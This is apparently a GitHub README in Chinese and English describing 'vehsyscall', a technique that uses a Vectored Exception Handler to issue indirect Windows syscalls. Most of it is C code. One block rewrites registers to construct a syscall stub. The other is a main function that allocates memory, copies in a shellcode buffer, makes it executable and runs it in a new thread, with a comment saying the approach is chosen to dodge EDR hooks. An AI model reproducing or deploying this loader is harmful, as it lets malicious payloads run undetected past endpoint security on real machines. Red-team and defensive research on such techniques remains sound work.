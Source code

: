 **VEH syscall流程**

![image-20240229092953218](https://github.com/coleak2021/vehsyscall/assets/103516488/bd5656a2-81a8-4307-a12a-8dd813dc7a31)



```c
// Vectored Exception Handler function
LONG CALLBACK PvectoredExceptionHandler(PEXCEPTION_POINTERS exception_ptr) {
    // Check if the exception is an access violation
    if (exception_ptr->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // Modify the thread's context to redirect execution to the syscall address
        // Copy RCX register to R10
        exception_ptr->ContextRecord->R10 = exception_ptr->ContextRecord->Rcx;

        // Copy RIP (Instruction Pointer) to RAX (RIP keeps SSN --> RAX keeps SSN)      
        exception_ptr->ContextRecord->Rax = exception_ptr->ContextRecord->Rip;

        // Set RIP to global address (set syscalls address retrieved from NtDrawText to RIP register)       
        exception_ptr->ContextRecord->Rip = g_syscall_addr;

        // Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
}
```

> 这里通过ContextRecord修改程序上下文中的寄存器值构造了syscall stub



**vehsyscall关键代码分析**

```c
// define var
std::map<int, string> Nt_Table;
DWORD t = 0;
LPVOID m_Index = m_Index = GetProcAddress(GetModuleHandleA("Ntdll.dll"), "NtDrawText");//a safe function address that may not be hooked by edr

//main function
int main(int argc, char* argv[]) {
    //exec NtAllocateVirtualMemory
    NtAllocateVirtualMemory pNtAllocateVirtualMemory = NULL;
    t = GetSSN("ZwAllocateVirtualMemory");
    pNtAllocateVirtualMemory((HANDLE)-1, &lpAddress, 0, &sDataSize, MEM_COMMIT, PAGE_READWRITE);

    //write your code
    VxMoveMemory(lpAddress, rawData, sizeof(rawData));

    //exec NtProtectVirtualMemory
    NtProtectVirtualMemory pNtProtectVirtualMemory = NULL;
    t = GetSSN("ZwProtectVirtualMemory");
    pNtProtectVirtualMemory((HANDLE)-1, &lpAddress, &sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);


    //exec NtCreateThreadEx
    pNtCreateThreadEx NtCreateThreadEx = NULL;
    t = GetSSN("ZwCreateThreadEx");
    NtCreateThreadEx(&hThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)lpAddress, NULL, 0, 0, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}

```